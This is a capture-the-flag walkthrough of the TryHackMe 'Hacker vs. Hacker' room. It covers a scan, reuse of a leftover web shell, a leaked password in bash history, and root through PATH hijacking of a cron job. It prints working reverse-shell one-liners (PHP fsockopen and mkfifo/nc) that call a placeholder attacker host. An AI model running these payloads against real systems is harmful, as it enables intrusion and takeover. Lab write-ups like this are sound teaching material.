 ```bash
# PLATFORM          . THM
# CTF NAME          . Hacker vs. Hacker
# DESCRIPTION       . Someone has compromised this server already! Can you get in and evade their countermeasures?
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/hackervshacker
```

```
sudo nmap -sSVC -T5 -p- 10.10.243.47 -oN hvh
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9fa60153923a1dbad718185c0d8e922c (RSA)
|   256 4b60dcfb92a86ffc745364c18cbdde7c (ECDSA)
|_  256 83d49cd09036ce83f7c7533028dfc3d5 (ED25519)
	
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: RecruitSec: Industry Leading Infosec Recruitment
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### PORT 80 

- I started by inspecting the source code of the website and I found the following information

```
<!-- im no security expert - thats what we have a stable of nerds for - but isn't /cvs on the public website a privacy risk? -->
```

- However, directory listing is disabled for `/cvs`.

- By inspecting the source code of `/cvs`, we find `upload.php`

```

Hacked! If you dont want me to upload my shell, do better at filtering!

<!-- seriously, dumb stuff:

$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}

-->
```

- We see that the (former) script was checking only for the `.pdf` extension of the file.

- I tried uploading a PHP reverse shell called `shell.pdf.php`, but, as expected, it wasn't actually uploading the file anymore, so the upload logic has been removed by the previous attacker.

- However, `/cvs/shell.pdf.php` is the name chosen by the previous attacker. If we access that, we get the following 

```
boom!
```

- So the file is still uploaded. However, if it's a reverse shell, then we have no luck.

- I was thinking that since there's no other way around, this might be actually a web shell and we might find a parameter to execute commands, so I've tried the most obvious one: `?cmd=`. 

```
http://10.10.243.47/cvs/shell.pdf.php?cmd=ls

index.html
shell.pdf.php

boom!
```

- Lucky enough. 

- Since I knew PHP is already installed on the system, I used a PHP reverse shell to get foothold on the system.

```
php -r '$sock=fsockopen("attacker_ip",3131);exec("sh <&3 >&3 2>&3");'
```

- But I've URL-encoded it, resulting in the following final result

```
ip/cvs/shell.pdf.php?cmd=php+-r+%27%24sock%3Dfsockopen%28%22ip%22%2C3131%29%3Bexec%28%22sh+%3C%263+%3E%263+2%3E%263%22%29%3B%27
```

#### PRIVILEGE ESCALTION --- www-data -> lachlan

- The `user.txt` flag is in `/home/lachlan/` and can be read.


- I tried spawning a bash shell but after a short while I was "sent back" to a sh.

```
python3 -c 'import pty;pty.spawn("/bin/bash")

www-data@b2r:/var/www/html/cvs$ nope

ls
index.html
```

- The `nope` message was sent automatically, so there must be some sort of script preventing shell stabilization.
- This would also kill any SSH connections unless used with `-T`, so no TTY is created.

- I fired up `pspy64` and took a look at what is running. Under `root`, i found the following

```
PID=4462 | /bin/sh -c /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done 
```

**NOTE**: There were multiple `PIDs` with different sleep timers that were checking the same thing.

- After poking around some more, I couldn't find anything relevant and I took closer attention to `/home/lachlan`.

- In `.bash_history`, I found the new password of the user

```
cat .bash_history

./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "dHY5pzmNYoETv7SUaY\n{REDACTED}\n{REDACTED}" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```

- `su lachlan`

#### PRIVILEGE ESCALATION --- lachlan -> root

```
Sorry, user lachlan may not run sudo on b2r.
```

- In `/etc/cron.d/persistence`, I found the actual cron that is running the checks preventing us to spawn a bash shell.

```
cat persistence
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

(I actually found it earlier but it makes much more sense to explain about it now).

- We see that the `backup.sh` is commented out, so we don't care about that.

- However, the PATH is also set to `/home/lachlan/bin` first, so the binaries are searched in that path first.

- All are using their absolute path `EXCEPT pkill`, which is using the relative path. 

- This means that the cron is looking for `pkill` in `/home/lachlan/bin`. If it's not there, in `/bin`. Then in `/usr/bin`. 

```
which pkill
/usr/bin/pkill
```

- If we create a script called `pkill` in `/home/lachlan/bin` and make it executable, it'll get executed as root.

- The content of `pkill` can be anything. I've chosen to be a reverse shell, but could be even a passwd to change root's password or whatever you feel like doing.

```
cd /home/lachlan/bin
touch pkill
echo "#!/bin/bash" > pkill
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc IP 3132 >/tmp/f" >> pkill
chmod +x pkill
```

- On my listener, I've got

```
Listening on 0.0.0.0 3132
Connection received on 10.10.243.47 42206
bash: cannot set terminal process group (5684): Inappropriate ioctl for device
bash: no job control in this shell
root@b2r:~#
```

- The last flag is in `/root/root.txt`.